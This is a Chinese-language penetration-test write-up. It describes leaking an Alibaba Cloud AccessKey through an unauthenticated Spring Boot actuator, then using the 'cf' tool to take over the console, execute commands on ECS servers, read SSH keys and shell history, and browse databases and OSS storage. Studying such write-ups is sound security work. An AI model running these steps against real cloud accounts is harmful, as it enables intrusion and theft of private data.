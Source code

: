 **0x00 Springboot actuator 开局**

打点发现某系统存在 Springboot actuator 未授权访问，看到一个神奇的 oss 接口，Springboot 未授权玩了这么多年，也是第一次碰到云的响应。

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNf81dicECicSAyU9O9lOSQmCSTWk4DoWjQ3AIuROUDic1Ul3vBiawUIXTWfA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

直接访问，AK 到手

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfiaiaKKndTLaMCqXTdLuTXkk5DE4fwiadL7tmsdDPop6eqCoeEbUt5Xibag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)  

**0x01 一键接管？**

配置 AK

```
cf config
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeOWtLQ1bGWCvntTWVTHMUcazx1QKAlcVXmx9WvMz1uB9SUHDibgp6xv2g/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

查看当前 AK 的权限

```
cf alibaba perm
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeOONxUEzSeYBwcawNAVvZic4Sch5DcjVCnrNDexSF1Mruu4jPFoeLs5LQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

一键接管控制台

```
cf alibaba console
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeOlG2ibRk0ENricePAXkUZlaNB1giaVgKxbbn8OanibF3bcHGJvCY82jdiaog/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNf2yZvTGAeZDY14fHyRib87URV2ibYq9dX15EEApia6P4JvUNuRhOUX0CVQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

云上自带的扫描，可以看到有好多漏洞都未修复，相当于一堆靶场啊。

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNf4KASCEFqplUyTzLK5icMlFrYxtOemKsF2TNz4CV0kxSVfEHWmXeRevQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**0x02 ECS 利用**

列出 ECS

```
cf alibaba ecs ls
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfWN1Hh6fWWq2kM3xAEGlFptJ7zMsxbZicLYOKmtD0Gibt4dbNBt0ZWZPA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfbGvxL0QiaVytwNPbHWF7Z4p4nEzic4PJsXXB6SH6m0E5trgu5ewxsbHg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

46 台服务器到手（有几个 Stopped），直接命令三连，截图留证。

```
cf alibaba ecs exec -b
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeOibs2jibsC9lVW0MgF95yS1Ju5iaMGn13DdupvxpVNyRSBdiaNg53C9KgibQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

然后就是翻翻实例，看看能不能发现什么有用的信息。

root 权限，直接开始捡漏，看到了公私钥，又一波免密登录机器到手。

```
cf alibaba ecs exec -i 实例ID -c "ls ~/.ssh"
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfToUxo8kCJ5dD76ykibKFVNJA3AWzkyVt4NXDfKwQo9HpVlk3YO7lS2Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

```
cf alibaba ecs exec -i 实例ID -c "ls ~/.bash_history"
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeOwv7oiccxLFUVxZfS1KZ6icd7S2EYLrNrDqOUQiaTl0CRYwcsbcN9vQdAw/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

熟悉的味道，碰到了久违的 k8s，拿下拿下

```
cf alibaba ecs exec -i 实例ID -c "docker ps -a"
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfqic7kwNF6icK3H5cTB9eBZ5rAUPk7CwUDtqvbuicc2NmnjMJkicudYsLCQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

再看看数据库吧

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeONetsswibpoTJwWTesV3SczX3LW7LOmu5NNHqcTV1vjJvBdy3SicmryBw/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeO1hia57Ke0jevhRkcTMjPKeiac20vDGt3HlHmXxhqN9AKYhLJMG6mnMicA/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lvTqB4HLwG38ibW6fnYpGOAAIKglZhpeObePA9NDD6TcGB4Qn0qX2leRfyITjwEbq5a6WCjVo0FBAewzibE8z9gA/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

**0x03 OSS 利用**

内容比较多，直接 OSS 浏览器连接查看，太多了，懒得翻了，一般会存一些照片（证件照？），备份库之类的。

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfq9HgLkI5BMTZe6uX4qFT2zpWou1myfj5LhdyibzhNichWhaq7naBcWNA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/X5epWh2K2Oq4v4Y0VneGc8ibJBlOdPnNfZabeqgsO5z2CSWdlJBIDkxP7P1dK65micsiaMBJzrw3KJiaqQe3zicCXKw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**0x04 总结**

Springboot 未授权访问获取 AK，CF 一把梭，ECS 翻翻配置和历史命令记录，发现 Docker 和数据库信息，OSS 翻翻文件，发现数据库文件，结束。